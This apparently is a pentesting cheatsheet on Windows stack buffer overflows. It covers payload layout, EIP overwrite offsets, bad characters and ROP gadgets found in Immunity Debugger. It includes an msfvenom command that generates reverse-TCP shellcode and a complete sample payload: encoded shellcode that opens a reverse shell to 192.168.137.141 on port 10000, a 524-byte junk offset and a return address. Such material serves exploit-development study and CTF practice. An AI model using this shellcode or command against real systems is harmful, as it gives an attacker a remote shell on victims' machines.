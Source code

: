 # Buffer Overflow cheatsheet

## Generating Shellcode

```text
msfvenom -a x86 --platform Windows -p windows/shell/reverse_tcp LHOST=10.10.14.6 LPORT=4444 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

## Payload Format

* **payload = junk + shell\_addr + \(nops + shellcode\)**
  * `junk` : is offset before the EIP overwritten.
  * `shell_addr` : is the address which we overwrite on the EIP register.
  * `(nops + shellcode)` : actual shell code address, we need to include nops for smooth execution of shellcode. nops are part of shellcode

## Computing shell\_addr 

1\) Hardcoding shellcode address

* Requirements
  * We need ASLR disabled. address randomization for stack memory
  * We need no null byte in hardcoded address of \(nops + shellcode\).
  * We need the stack executable.

2\) If shellcode address contain null byte.

* We need to use ROP gadgets to solve it.
* Requirements
  * We need ASLR disabled. address randomization on stack
  * We need the stack executable.
  * ROP objects need to be present which do not have null byte in its address.

3\) Even if the shellcode is not running

* It could be due to bad characters. There is a method to find bad characters.

## Finding ROP in windows immunity debugger

* Different types of ROP gadgets.
  * JMP ESP
  * POP RET
  * POP POP RET
* Not when we use ROP gadget, we inject our shellcode inside the "junk" text itself. From experience we  know that "**there is call made back to the stack"** after execution of ROP gadget which points to start of the "junk" address.
* Here the format of **payload = buf + junk\_remaining + ROP\_addr**
  * where `buf` is our reverse tcp shellcode
  * where `junk_remaining` = junk - len\(buf\)
  * where `ROP_addr` is the address of the ROP gadget.

### Sample payload

```text
buf =  ""
buf += "\x48\xf5\x40\x42\x2f\x48\x4a\x49\x99\x4b\xb8\x1b\xa4"	#msfvenom -p windows/shell_reverse_tcp LHOST=192.168.137.141 LPORT=10000 -n 10 --arch x86 --platform windows -f python -b "\x00"
buf += "\x79\xd9\xdd\xc5\xd9\x74\x24\xf4\x5d\x2b\xc9\xb1\x52"	# nops are pre included in shellcode.
buf += "\x31\x45\x12\x03\x45\x12\x83\xde\xa0\x9b\x2c\x1c\x40"
buf += "\xd9\xcf\xdc\x91\xbe\x46\x39\xa0\xfe\x3d\x4a\x93\xce"
buf += "\x36\x1e\x18\xa4\x1b\x8a\xab\xc8\xb3\xbd\x1c\x66\xe2"
buf += "\xf0\x9d\xdb\xd6\x93\x1d\x26\x0b\x73\x1f\xe9\x5e\x72"
buf += "\x58\x14\x92\x26\x31\x52\x01\xd6\x36\x2e\x9a\x5d\x04"
buf += "\xbe\x9a\x82\xdd\xc1\x8b\x15\x55\x98\x0b\x94\xba\x90"
buf += "\x05\x8e\xdf\x9d\xdc\x25\x2b\x69\xdf\xef\x65\x92\x4c"
buf += "\xce\x49\x61\x8c\x17\x6d\x9a\xfb\x61\x8d\x27\xfc\xb6"
buf += "\xef\xf3\x89\x2c\x57\x77\x29\x88\x69\x54\xac\x5b\x65"
buf += "\x11\xba\x03\x6a\xa4\x6f\x38\x96\x2d\x8e\xee\x1e\x75"
buf += "\xb5\x2a\x7a\x2d\xd4\x6b\x26\x80\xe9\x6b\x89\x7d\x4c"
buf += "\xe0\x24\x69\xfd\xab\x20\x5e\xcc\x53\xb1\xc8\x47\x20"
buf += "\x83\x57\xfc\xae\xaf\x10\xda\x29\xcf\x0a\x9a\xa5\x2e"
buf += "\xb5\xdb\xec\xf4\xe1\x8b\x86\xdd\x89\x47\x56\xe1\x5f"
buf += "\xc7\x06\x4d\x30\xa8\xf6\x2d\xe0\x40\x1c\xa2\xdf\x71"
buf += "\x1f\x68\x48\x1b\xda\xfb\xb7\x74\x6d\x76\x5f\x87\x6d"
buf += "\xae\xb0\x0e\x8b\xda\xa0\x46\x04\x73\x58\xc3\xde\xe2"
buf += "\xa5\xd9\x9b\x25\x2d\xee\x5c\xeb\xc6\x9b\x4e\x9c\x26"
buf += "\xd6\x2c\x0b\x38\xcc\x58\xd7\xab\x8b\x98\x9e\xd7\x03"
buf += "\xcf\xf7\x26\x5a\x85\xe5\x11\xf4\xbb\xf7\xc4\x3f\x7f"
buf += "\x2c\x35\xc1\x7e\xa1\x01\xe5\x90\x7f\x89\xa1\xc4\x2f"
buf += "\xdc\x7f\xb2\x89\xb6\x31\x6c\x40\x64\x98\xf8\x15\x46"
buf += "\x1b\x7e\x1a\x83\xed\x9e\xab\x7a\xa8\xa1\x04\xeb\x3c"
buf += "\xda\x78\x8b\xc3\x31\x39\xbb\x89\x1b\x68\x54\x54\xce"
buf += "\x28\x39\x67\x25\x6e\x44\xe4\xcf\x0f\xb3\xf4\xba\x0a"
buf += "\xff\xb2\x57\x67\x90\x56\x57\xd4\x91\x72"

junk = 'A'* (524 - len(buf))        #where 524 is the offset after which EIP is overwritten.    
rop_addr = '\x25\x27\x21\x77'        #77212725

payload = buf + junk + rop_addr
```

![](.gitbook/assets/image%20%2826%29.png)

* Right click on the command box -&gt; Search for -&gt; Sequence of commands

```text
POP EAX
POP EBX
RET
```

* "ctrl + l" to find the next search result.

## Finding ROP in linux

* \(Refer linux exploit development\)

